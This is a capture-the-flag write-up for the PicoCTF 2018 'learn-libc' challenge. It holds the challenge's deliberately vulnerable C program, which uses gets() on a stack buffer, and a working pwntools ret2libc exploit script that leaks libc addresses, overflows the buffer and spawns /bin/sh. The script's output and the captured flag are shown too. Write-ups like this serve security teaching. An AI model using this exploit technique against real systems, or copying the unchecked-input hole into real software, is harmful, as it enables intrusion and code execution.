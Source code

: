 # PicoCTF18 learn-libc

## Challenge

This [program](https://2018shell.picoctf.com/static/3f9baed3a53fe9962f7bd7b14b58d07e/vuln) gives you the address of some system calls. Can you get a shell? You can find the program in /problems/got-2-learn-libc_1_ceda86bc09ce7d6a0588da4f914eb833 on the shell server. [Source](https://2018shell.picoctf.com/static/3f9baed3a53fe9962f7bd7b14b58d07e/vuln.c). 

## Hints

try returning to systems calls to leak information

don't forget you can always return back to main()

## Solution

vuln.c:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#define BUFSIZE 148
#define FLAGSIZE 128

char useful_string[16] = "/bin/sh"; /* Maybe this can be used to spawn a shell? */

void vuln(){
  char buf[BUFSIZE];
  puts("Enter a string:");
  gets(buf);
  puts(buf);
  puts("Thanks! Exiting now...");
}

int main(int argc, char **argv){
  setvbuf(stdout, NULL, _IONBF, 0);
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Here are some useful addresses:\n");
  printf("puts: %p\n", puts);
  printf("fflush %p\n", fflush);
  printf("read: %p\n", read);
  printf("write: %p\n", write);
  printf("useful_string: %p\n", useful_string);
  printf("\n");
  vuln();
  return 0;
}
```

Let's view the directory:

```bash
samson@pico-2018-shell:/problems/got-2-learn-libc_1_ceda86bc09ce7d6a0588da4f914eb833$ ls -al
total 72
drwxr-xr-x   2 root       root                4096 Mar 25  2019 .
drwxr-x--x 556 root       root               53248 Mar 25  2019 ..
-r--r-----   1 hacksports got-2-learn-libc_1    37 Mar 25  2019 flag.txt
-rwxr-sr-x   1 hacksports got-2-learn-libc_1  7856 Mar 25  2019 vuln
-rw-rw-r--   1 hacksports hacksports           843 Mar 25  2019 vuln.c
```

This question seems to be talking about using a `ret-2-libc` attack, but let's see if there's an easier way or if they intended it to be that way.

Let's use this script to determine what's available to us:

```python
#!/usr/bin/env python

from pwn import *

if len(sys.argv) < 2:
    elf = ELF('./vuln')
    sh = elf.process()
else:
    s = ssh(host='2018shell4.picoctf.com', user='samson', password=getpass())
    sh = s.process('vuln', cwd='/problems/got-2-learn-libc_1_ceda86bc09ce7d6a0588da4f914eb833')
```

```bash
samson@pico-2018-shell:/problems/got-2-learn-libc_1_ceda86bc09ce7d6a0588da4f914eb833$ python ~/lib.py
[*] '/problems/got-2-learn-libc_1_ceda86bc09ce7d6a0588da4f914eb833/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/problems/got-2-learn-libc_1_ceda86bc09ce7d6a0588da4f914eb833/vuln': pid 3914031
[*] Stopped process '/problems/got-2-learn-libc_1_ceda86bc09ce7d6a0588da4f914eb833/vuln' (pid 3914031)
```

Seems like the `NX` bit is set which means the stack is non-executable. We can't just insert shellcode and point `eip` to the start of our buffer.

So let's the binary and see how it works.

```bash
samson@pico-2018-shell:/problems/got-2-learn-libc_1_ceda86bc09ce7d6a0588da4f914eb833$ ./vuln
Here are some useful addresses:

puts: 0xf75bd140
fflush 0xf75bb330
read: 0xf7632350
write: 0xf76323c0
useful_string: 0x56648030

Enter a string:
AAAAAAAAAAAAA
AAAAAAAAAAAAA
Thanks! Exiting now...
```

Let's try some inputs and verify it's susceptible to overflow: ``


I noticed that the addresses seem to change over time, take a look between these three runs

|  |Run 0|Run 1|Run 2|
|---|---|---|---|
|puts|0xf75bd140|0xf75bd140|0xf75bd140|
|fflush|0xf75bb330|0xf75bb330|0xf75bb330|
|read|0xf7632350|0xf765b350|0xf765b350|
|write|0xf765b3c0|0xf765b3c0|0xf765b3c0|
|useful_string|*0x56626030*|*0x56648030*|*0x565bf030*|

Note how the `useful_string` address changes all the time.

Since we have the address for other libc commands and they remain constant, we can also determine the address of the command `system()` and be sure it'll always stay at the address we find it.

```bash
samson@pico-2018-shell:/problems/got-2-learn-libc_1_ceda86bc09ce7d6a0588da4f914eb833$ gdb vuln
< REDACTED >
(gdb) b main
Breakpoint 1 at 0x812
(gdb) r
Starting program: /problems/got-2-learn-libc_1_ceda86bc09ce7d6a0588da4f914eb833/vuln

Breakpoint 1, 0x5663e812 in main ()
(gdb) x puts
0xf759b140 <puts>:      0x57e58955
(gdb) x system
0xf7576940 <system>:    0x8b0cec83
```

We found `system()` at `0xf7576940`. So let's calculate the offset to `puts()` so we can be sure we're hitting system every time.

Great now from here, we just need to cause an overflow and set up the stack such that the processor will run whatever command we want with the proper arguments.

We need to make our stack look like this:

|  | Stack |
|---|---|
| Arguments to `system()` | `/bin/sh` |
| Caller function to return to | `AAAA` |
| Function Call | `system()` |
|  |  |

We can insert anything we want for the return address because once our exploit runs, we should have popped open a shell and the program will never need to return validly. Although, I believe the hint is trying to make it easy for us to debug by telling us to return to `main()`.

So let's figure out the buffer overflow. I'll spare the details for how many A's are needed.
But we need to be sure ESP points ot the top of the stack shown above.

```python
#!/usr/bin/env python

from pwn import *

if len(sys.argv) < 2:
    elf = ELF('/problems/got-2-learn-libc_1_ceda86bc09ce7d6a0588da4f914eb833/vuln')
    sh = elf.process()
else:
    s = ssh(host='2018shell4.picoctf.com', user='samson', password="REDACTED")
    sh = s.process('vuln', cwd='/problems/got-2-learn-libc_1_ceda86bc09ce7d6a0588da4f914eb833')

libc = ELF('/lib32/libc.so.6')
offset_system = libc.symbols['system']
offset_puts = libc.symbols['puts']
offset = offset_system - offset_puts

sh.recvuntil('puts: ')
addr_puts = int(sh.recv(10), 16)
sh.recvuntil('useful_string: ')
addr_shell = int(sh.recv(10), 16)
addr_system  = addr_puts + offset
#-----------------------------------------------
# A's + &system() + return address +&/bin/sh
#-----------------------------------------------
sleep(1)
payload = 'A'*160 + p32(addr_system)+ 'A'*4 + p32(addr_shell)
sh.sendline(payload)
sh.sendline('cat /problems/got-2-learn-libc_1_ceda86bc09ce7d6a0588da4f914eb833/flag.txt')
sh.interactive()
```

```bash
samson@pico-2018-shell:/problems/got-2-learn-libc_1_ceda86bc09ce7d6a0588da4f914eb833$ python ~/libw.py
[*] '/problems/got-2-learn-libc_1_ceda86bc09ce7d6a0588da4f914eb833/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/problems/got-2-learn-libc_1_ceda86bc09ce7d6a0588da4f914eb833/vuln': pid 3917593
[*] '/lib32/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode


Enter a string:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@9cAAAA0WV
Thanks! Exiting now...
picoCTF{syc4al1s_4rE_uS3fUl_a78c4d87}$
```

## Flag

`picoCTF{syc4al1s_4rE_uS3fUl_a78c4d87}`

## Notes

Untested

You can apparently find cycles like this:

```
#find buffer amount
'''
pwn cyclic 172 | strace ./vuln
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x62616170} ---
+++ killed by SIGSEGV +++
Segmentation fault
pwn cyclic -l 0x62616170
160
'''
```